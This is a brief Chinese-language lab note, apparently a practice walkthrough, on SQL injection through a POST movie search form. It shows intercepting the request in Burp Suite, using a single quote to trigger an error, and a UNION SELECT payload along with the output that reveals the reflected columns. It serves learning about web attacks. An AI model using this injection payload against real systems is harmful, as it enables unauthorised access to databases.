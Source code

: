 # sql 注入 Post Search 

## 调查

Post肯定需要BrupSuite抓包修改,尝试修改

空修改为 Iron' 发现了熟悉的报错,我们断定其实post和get后端的代码一样,继续测试

=Iron'union select 1,2,3,4,5,6,7-- -

发现返回 

```
Title 	Release 	Character 	Genre 	IMDb
2 	3 	5 	4 	Link
```

说明成功注入

后续步骤与get一致即可
